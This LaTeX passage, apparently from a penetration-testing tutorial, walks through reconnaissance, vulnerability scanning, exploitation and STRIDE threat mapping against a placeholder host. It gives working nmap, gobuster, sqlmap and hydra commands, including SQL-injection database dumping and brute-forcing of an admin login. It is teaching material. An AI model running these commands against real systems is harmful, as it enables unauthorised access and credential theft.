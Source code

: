 \subsection*{3. Reconnaissance and Scanning}
	extbf{Definition:} Reconnaissance gathers information about the target, such as open ports and technologies\cite{shostack2014}.
	extbf{Linux Commands:}
\begin{verbatim}
# Discover open ports
nmap -sV -T4 -p- 10.0.0.5

# Enumerate web directories
gobuster dir -u http://10.0.0.5 -w /usr/share/wordlists/dirb/common.txt

# Identify technologies
whatweb http://10.0.0.5
\end{verbatim}

\subsection*{4. Vulnerability Scanning}
	extbf{Definition:} Vulnerability scanning identifies weaknesses that can be exploited by attackers\cite{owasp}.
	extbf{Linux Commands:}
\begin{verbatim}
# Scan for SQL injection
sqlmap -u "http://10.0.0.5/login.php" --forms --batch

# Check for XSS
nikto -h http://10.0.0.5
\end{verbatim}

\subsection*{5. Exploitation}
	extbf{Definition:} Exploitation is the act of leveraging vulnerabilities to gain unauthorized access or extract data\cite{uceda2015}.
	extbf{Linux Commands:}
\begin{verbatim}
# Exploit SQL injection to dump users
sqlmap -u "http://10.0.0.5/login.php" --dump

# Exploit weak admin password
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.5 http-post-form \
"/admin/login.php:username=^USER^&password=^PASS^:F=incorrect"
\end{verbatim}

\subsection*{6. Threat Enumeration (STRIDE/PASTA)}
	extbf{Definition:} Threat enumeration maps discovered vulnerabilities to threat categories\cite{shostack2014,uceda2015}.
\begin{itemize}
	\item Spoofing: Brute-force login, session fixation
	\item Tampering: SQL injection, file upload
	\item Repudiation: Lack of logging
	\item Information Disclosure: Sensitive data in responses
	\item Denial of Service: Flooding login endpoint
	\item Elevation of Privilege: Exploiting admin panel
\end{itemize}

